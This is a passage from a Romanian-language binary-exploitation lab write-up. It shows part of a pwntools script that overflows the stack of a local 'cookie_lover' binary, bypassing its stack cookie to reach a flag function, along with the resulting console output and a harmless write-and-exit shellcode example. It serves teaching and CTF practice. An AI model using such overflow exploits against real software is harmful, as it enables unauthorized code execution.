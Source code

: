 ```python
    payload += p32(send_flag)
    payload += (64 - 28 - 2 * 4) * b'a'

    # Scrie payload-ul într-un fișier
    payload_file = open(PAYLOAD_FILE, "wb")
    payload_file.write(payload)
    payload_file.close()

    # Trimite payload-ul și verifică textul întors
    p.send(payload)
    final_output = p.recvall()
    if (final_output.find(FLAG_PREFIX) != -1):
        final_output = final_output[:-2].decode("utf-8")
        log.success(
            "Exploit-ul a avut succes. Textul ce conține flag-ul este:\n{}".
            format(final_output))
    else:
        log.failure(
            "Exploit-ul pare ca nu funcționează. Textul returnat este:\n{}\n".
            format(final_output))
    p.close()


if __name__ == "__main__":
    main()
```

Odată rulat, următoarele sunt afișate în consolă:

```bash
$ ./exploit.py
[*] Adresa functiei send_flag este 0x80492af.
[+] Starting local process '../../Exerciții/cookie_lover/cookie_lover.elf': pid 15554
[+] Starting local process './generate_cookie.elf': pid 15556
[+] Receiving all data: Done (9B)
[*] Process './generate_cookie.elf' stopped with exit code 0 (pid 15556)
[*] Stack cookie-ul generat este 353780496.
[+] Receiving all data: Done (150B)
[*] Process '../../Exerciții/cookie_lover/cookie_lover.elf' stopped with exit code -11 (SIGSEGV) (pid 15554)
[+] Exploit-ul a avut succes. Textul ce contine flag-ul este:
    You demonstate us that you are a true cookie lover. You did't even smash one!
    Here is a reward for you: SI{A_BALANCED_DIET_IS_A_COOKIE_IN_EACH_HAND}
```

## 2 - Crearea și Testarea unui *Shellcode* 💁

Funcționalitatea codului în limbaj de asamblare din fișierul dat este următoarea:

```asm
BITS 32
    push 0x0a2173   ; Plasează pe stivă a șirului de caractere "\n!s".
    push 0x776f6c6c ; Plasează pe stivă a șirului de caractere "woll".
    push 0x65662073 ; Plasează pe stivă a șirului de caractere "ef s".
    push 0x62614c70 ; Plasează pe stivă a șirului de caractere "baLp".
    push 0x78456e69 ; Plasează pe stivă a șirului de caractere "xEni".
    push 0x42202c6f ; Plasează pe stivă a șirului de caractere "B ,o".
    push 0x6c6c6548 ; Plasează pe stivă a șirului de caractere "lleH".
    mov edx, 27     ; Setează lungimea șirului de caractere.
    mov ecx, esp    ; Setează mesajul printr-un pointer către stivă.
    mov ebx, 1      ; Utilizează stdout.
    mov eax, 4      ; Setează apelul de sistem write.
    int 0x80        ; Apelează.
    mov ebx, 0      ; Setează codul de retur.
    mov eax, 1      ; Setează apelul de sistem exit.
```